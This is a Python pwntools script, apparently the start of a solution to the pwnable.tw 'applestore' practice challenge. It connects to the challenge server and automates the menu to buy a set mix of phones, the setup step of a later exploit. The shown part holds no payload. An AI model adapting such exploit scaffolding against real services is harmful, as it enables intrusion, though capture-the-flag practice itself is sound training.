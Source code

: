 ## Full script

```python
#!/usr/bin/env python3


from struct import pack
from pwn import *

HOST='chall.pwnable.tw'
PORT=10104
PROC="./applestore"

# context.log_level = 'DEBUG'

io=None
elf=ELF("./applestore")
lib = ELF("./libc_32.so.6")

if len(sys.argv) == 1 : 
    io=process("./applestore")
else:
    log.info("remote start")
    # 设置代理
    context.proxy=(socks.SOCKS5,'localhost',7890)
    io=remote(HOST,PORT)

def PauseLocalDebug():
    info("process pid: "+str(io.pid))
    pause()

def list():
    io.sendafter("> ","1")

def add(number):
    io.sendafter("> ","2")
    io.sendafter("> ",number)

def delete(number):
    io.sendafter("> ","3")
    io.sendafter("> ",number)

def cart(confirmation):
    io.sendafter("> ","4")
    io.sendafter("> ",confirmation)

def checkout(confirmation):
    io.sendafter("> ","5")
    io.sendafter("> ",confirmation)

def getIphone8():
    # $199
    a=16
    # $399
    b=10
    for i in range(a):
        add("1")
    for i in range(b):
        add("4")
    checkout('y\n')

getIphone8()

```